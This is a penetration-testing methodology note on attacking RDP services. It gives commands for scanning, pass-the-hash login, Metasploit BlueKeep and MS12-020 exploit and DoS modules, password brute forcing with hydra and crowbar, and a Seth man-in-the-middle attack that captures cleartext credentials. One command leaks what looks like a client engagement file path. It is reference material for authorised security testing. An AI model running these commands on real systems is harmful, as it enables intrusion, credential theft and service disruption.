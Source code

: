 # RDP - Methodology

### Overview

Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft,
which provides a user with a graphical interface to connect to another computer
over a network connection.

The user employs RDP client software for this purpose, while the other computer
must run RDP server software.

RDP authentication mechanism rely on Windows local or Active Directory domain
credentials.

RDP may uses Network Level Authentication (NLA, RDP 6.0 and supported initially
in Windows Vista / Windows Server 2008) which requires the connecting user to
authenticate before a session is established with the server and prevents the
use of resources on the server from the load of the graphical login screen.

### Network scan

Nmap can be used to scan the network for RDP services:

```
nmap -v -p 3389 -A -oA nmap_rdp <RANGE/CIDR>
```

### RDP clients

###### Windows

On Windows, the default Microsoft Remote Desktop application
("Connexion Bureau à distance") or the Remote Desktop Manager third party
application can be used as RDP clients.

The Remote Desktop Manager allows for the configuration and storing of
multiples RDP connection (host and authentication information). A Free Edition
is available as well as a commercial grade Enterprise Edition.

###### Linux

On Linux, rdesktop or Remmina (GUI) can be used as RDP clients.

```
rdesktop [options] server[:port]
Remmina
```

### Pass-the-hash

FreeRDP can be used to authenticate using the hash through RDP against hosts
using the Restricted Admin mode feature.

```
xfreerdp /u:<USERNAME> /d:<DOMAIN> /pth:<HASH> /v:<HOST | IP>
```

### Known vulnerabilities

`nmap` can be used to check for the CVE-2012-0002 / MS12-020 exploit.
The `Metasploit`'s `auxiliary/scanner/rdp/cve_2019_0708_bluekeep` module and `rdpscan` can be used to scan for BlueKeep CVE-2019-0708

```
# BlueKeep CVE-2019-0708
msf> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
# set RHOSTS file:<PATH>
# set THREADS <THREADS_NUMBER>

rdpscan.exe --file E:\Keolis\1-Wales\1-Pentest\hosts\IP.txt

# CVE-2012-0002 / MS12-020
nmap -v -p 3389 --script rdp-vuln-ms12-020 <HOST>
msf> use auxiliary/scanner/rdp/ms12_020_check
```

###### BlueKeep CVE-2019-0708

An heap corruption can occur in the RDP protocol that allows for arbitrary code
execution at the system level pre-authentication.

Microsoft identified the following Windows versions as vulnerable:
  - Windows XP
  - Windows Vista
  - Windows 7
  - Windows Server 2003
  - Windows Server 2008
  - Windows Server 2008 R2

Windows versions newer than Windows 7 and Windows Server 2012 are not vulnerable.

The `Metasploit` module `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` can be
used to exploit the vulnerability. Note that the exploit is not yet polished.

```
msf> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

###### CVE-2012-0002 / MS12-020

The CVE-2012-0002 / MS12-020 vulnerability can be used both to realize a Denial
Of Service and remotely execute code on the target.

A metasploit module is available to realize a DoS of the target:

```
msf> use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

As of december 2018, no public proof-of-concept code that results in remote
code execution is available.

### Authentication brute force

The local or Active Directory domain account lockout policies apply
(depending on the type of authentication tried) when connecting with RDP.
Vertical brute forcing is thus not possible.

However, horizontal RDP brute forcing can be used for lateral movement once
an account has been compromised. Indeed, the compromised account may not be an
local Administrator (and thus can not connect through PsExec like tool) but can
be a member of the Remote Desktop Users group.

Patator, Hydra or the crowbar Python Script can be used to brute force RDP
access. Patator and crowbar both support NLA (as of December 2018, Patator does
not support no NLA RDP brute force).

```
python crowbar.py -b rdp (-u <USERNAME | <DOMAIN\\USERNAME> | -U USERNAME_FILE) (-c <PASSWORD> | -C <PASSWORDS_LIST) -s <CIDR>

hydra -t 1 -V -l <USERNAME> (-p <PASSWORD> | -P <PASSWORDS_LIST) rdp://<IP | HOST>
```

### Man-in-the-middle attack

Seth is a tool written in Python and Bash to MitM RDP connections that
attempts to downgrade the connection in order to extract clear text credentials.

Seth can be used regardless if Network Level Authentication (NLA) is enabled
on the RDP host.

Seth will notably:
  - Spoof ARP replies to redirect traffic from the victim host to the attacker
  machine and then to the target RDP server.
  - Configure an iptable rule to reject SYN packet to prevent direct RDP
  authentication.
  - Clone the SSL certificate (only replacing the public key and signature)
  - Block traffic to port 88 to downgrade Kerberos authentication to NTLM.

Note that the user will be presented with a certificate error warning that must
be accepted before the clear text credentials are sent.

In case of a successful attack:

  - Clear text credentials of the user login in are obtained
  - A command can be executed on the targeted host
  - Victim keyboard inputs are retrieved

Usage:

```
# Unless the RDP host is on the same subnet as the victim machine, the last IP address must be that of the gateway.
# The COMMAND is executed on the RDP host by simulating WIN+R
# The COMMAND should not contains special characters (powershell -enc <STRING> can be used)

seth.sh <INTERFACE> <ATTACKER_IP> <VICTIM_IP> <GATEWAY_IP | HOST_IP> [<COMMAND>]
```

### Session Hijacking

If Administrator / SYSTEM privileges could be obtained on a host, RDP sessions
of others users can be hijacked. This could be used to access the
host as the hijacked user through a GUI interface with out knowing its password.  

To hijack RDP session refer to the [Windows] Post Exploitation note.
